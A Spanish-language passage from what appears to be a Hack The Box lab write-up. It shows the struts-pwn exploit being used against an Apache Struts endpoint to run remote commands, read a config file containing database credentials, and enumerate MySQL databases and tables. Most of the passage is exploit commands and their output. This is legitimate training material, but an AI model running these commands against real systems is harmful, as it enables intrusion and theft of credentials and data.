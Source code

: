 Como podemos ver de primeras se nos otorga un archivo bastante interesante llamado `db_connect` por lo que vamos a ver que es lo que contiene

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'cat db_connect'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: cat db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
```

Obtenemos varias credenciales y por lo que parecen ser son para poder autenticarnos en una base de datos `mysql`, lo que pasa en este punto es que nosotros no podemos lanzar el tipico comando de `mysql -u user -p password` porque no tenemos una consola interactiva, por lo que nos devolvería un error, por lo que vamos a utilizar `mysqlshow` que es una alternativa para poder ver tanto las bases de datos como las tablas de estas para luego posteriormente hacer una consulta ya con el comando `mysql`

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -uadmin -padmin'
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| users              |
+--------------------+

[%] Done.
```

- Vemos las tablas dentro de la base de datos users

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -uadmin -padmin users'
Database: users
+----------+
|  Tables  |
+----------+
| accounts |
+----------+

[%] Done.
```
